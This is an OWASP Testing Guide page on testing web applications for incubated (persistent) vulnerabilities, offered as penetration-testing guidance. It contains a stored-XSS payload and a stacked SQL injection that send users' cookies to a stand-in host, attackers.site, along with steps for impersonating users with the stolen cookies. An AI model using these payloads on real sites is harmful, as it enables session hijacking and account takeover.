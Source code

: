 # Testing for incubated vulnerabilities (OTG-INPVAL-015)


## Summary
Also often refered to as persistent attacks, incubated testing is a complex testing method that needs more than one data validation vulnerability to work. Incubated vulnerabilities are typically used to conduct "watering hole" attacks against users of legitimate web applications.

Incubated vulnerabilities have the following characteristics:
* The attack vector needs to be persisted in the first place, it needs to be stored in the persistence layer, and this would only occur if weak data validation was present or the data arrived into the system via another channel such as an admin console or directly via a backend batch process.
* Secondly, once the attack vector was "recalled" the vector would need to be executed successfully. For example, an incubated XSS attack would require weak output validation so the script would be delivered to the client in its executable form.


Exploitation of some vulnerabilities, or even functional features of a web application, will allow an attacker to plant a piece of data that will later be retrieved by an unsuspecting user or other component of the system, exploiting some vulnerability there.


In a penetration test, **incubated attacks** can be used to assess the criticality of certain bugs, using the particular security issue found to build a client-side based attack that usually will be used to target a large number of victims at the same time (i.e. all users browsing the site).


This type of asynchronous attack covers a great spectrum of attack vectors, among them the following:

* File upload components in a web application, allowing the attacker to upload corrupted media files (jpg images exploiting CVE-2004-0200, png images exploiting CVE-2004-0597, executable files, site pages with active component, etc.)

* Cross-site scripting issues in public forums posts (see [Testing for Stored Cross_site scripting (OTG-INPVAL-002)](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_%28OTG-INPVAL-002%29) for additional details). An attacker could potentially store malicious scripts or code in a repository in the backend of the web-application (e.g., a database) so that this script/code gets executed by one of the users (end users, administrators, etc). The archetypical incubated attack is exemplified by using a cross-site scripting vulnerability in a user forum, bulletin board, or blog in order to inject some JavaScript code at the vulnerable page, and will be eventually rendered and executed at the site user's browser --using the trust level of the original (vulnerable) site at the user's browser.

* SQL/XPATH Injection allowing the attacker to upload content to a database, which will be later retrieved as part of the active content in a web page. For example, if the attacker can post arbitrary JavaScript in a bulletin board so that it gets executed by users, then he might take control of their browsers (e.g., [XSS-proxy](http://sourceforge.net/projects/xss-proxy)).

* Misconfigured servers allowing installation of Java packages or similar web site components (i.e. Tomcat, or web hosting consoles such as Plesk, CPanel, Helm, etc.)


## How to Test

### Black Box testing

#### File Upload Example
Verify the content type allowed to upload to the web application and the resultant URL for the uploaded file. Upload a file that will exploit a component in the local user workstation when viewed or downloaded by the user. Send your victim an email or other kind of alert in order to lead him/her to browse the page. The expected result is the exploit will be triggered when the user browses the resultant page or downloads and executes the file from the trusted site.


#### XSS Example on a Bulletin Board

1. Introduce *JavaScript* code as the value for the vulnerable field, for instance:
```
 <script>document.write('<img src="http://attackers.site/cv.jpg?'+document.cookie+'">')</script>
```
2. Direct users to browse the vulnerable page or wait for the users to browse it. Have a "listener" at *attackers.site* host listening for all incoming connections.
3. When users browse the vulnerable page, a request containing their cookie (*document.cookie* is included as part of the requested URL) will be sent to the *attackers.site* host, such as the following:
```
  - GET /cv.jpg?SignOn=COOKIEVALUE1;%20ASPSESSIONID=ROGUEIDVALUE;
      %20JSESSIONID=ADIFFERENTVALUE:-1;%20ExpirePage=https://vulnerable.site/site/;
      TOKEN=28_Sep_2006_21:46:36_GMT HTTP/1.1
```
4. Use cookies obtained to impersonate users at the vulnerable site.


#### SQL Injection Example
Usually, this set of examples leverages XSS attacks by exploiting a SQL-injection vulnerability. The first thing to test is whether the target site has a SQL injection vulnerability. This is described in Section 4.2 [Testing for SQL Injection](https://www.owasp.org/index.php/Testing_for_SQL_Injection_%28OTG-INPVAL-006%29). For each SQL-injection vulnerability, there is an underlying set of constraints describing the kind of queries that the attacker/pen-tester is allowed to do.


The tester then has to match the XSS attacks he has devised with the entries that he is allowed to insert.

1. In a similar fashion as in the previous XSS example, use a web page field vulnerable to SQL injection issues to change a value in the database that would be used by the application as input to be shown at the site without proper filtering (this would be a combination of an SQL injection and a XSS issue). For instance, let's suppose there is a *footer* table at the database with all footers for the web site pages, including a *notice* field with the legal notice that appears at the bottom of each web page. You could use the following query to inject JavaScript code to the *notice* field at the *footer* table in the database.
 ```
  SELECT field1, field2, field3
   FROM table_x
   WHERE field2 = 'x';
      UPDATE footer
      SET notice = 'Copyright 1999-2030%20
          <script>document.write(\'<img src="http://attackers.site/cv.jpg?\'+document.cookie+\'">\')</script>'
      WHERE notice = 'Copyright 1999-2030';
```
2. Now, each user browsing the site will silently send his cookies to the *attackers.site* (steps b.2 to b.4).


#### Misconfigured Server
Some web servers present an administration interface that may allow an attacker to upload active components of her choice to the site. This could be the case with an Apache Tomcat server that doesn’t enforce strong credentials to access its Web Application Manager (or if the pen testers have been able to obtain valid credentials for the administration module by other means).


In this case, a WAR file can be uploaded and a new web application deployed at the site, which will not only allow the pen tester to execute code of her choice locally at the server, but also to plant an application at the trusted site, which the site regular users can then access (most probably with a higher degree of trust than when accessing a different site).


As should also be obvious, the ability to change web page contents at the server, via any vulnerabilities that may be exploitable at the host which will give the attacker webroot write permissions, will also be useful towards planting such an incubated attack on the web server pages (actually, this is a known infection-spread method for some web server worms).


### Gray Box testing
Gray/white testing techniques will be the same as previously discussed.
* Examining input validation is key in mitigating against this vulnerability. If other systems in the enterprise use the same persistence layer they may have weak input validation and the data may be persisited via a "back door".

* To combat the "back door" issue for client side attacks, output validation must also be employed so tainted data shall be encoded prior to displaying to the client, and hence not execute.

* See the [Data Validation](https://www.owasp.org/index.php/Data_Validation_(Code_Review)#Data_validation_strategy) section of the Code review guide.


## Tools

* XSS-proxy - http://sourceforge.net/projects/xss-proxy
* Paros - http://www.parosproxy.org/index.shtml
* Burp Suite - http://portswigger.net/burp/proxy.html
* Metasploit - http://www.metasploit.com/

## References
Most of the references from the Cross-site scripting section are valid. As explained above, incubated attacks are executed when combining exploits such as XSS or SQL-injection attacks.


**Advisories**<br>

* CERT(R) Advisory CA-2000-02 Malicious HTML Tags Embedded in Client Web Requests - http://www.cert.org/advisories/CA-2000-02.html
* Blackboard Academic Suite 6.2.23 +/-: Persistent cross-site scripting vulnerability - http://lists.grok.org.uk/pipermail/full-disclosure/2006-July/048059.html


**Whitepapers**<br>

* Web Application Security Consortium "Threat Classification, Cross-site scripting" - http://www.webappsec.org/projects/threat/classes/cross-site_scripting.shtml
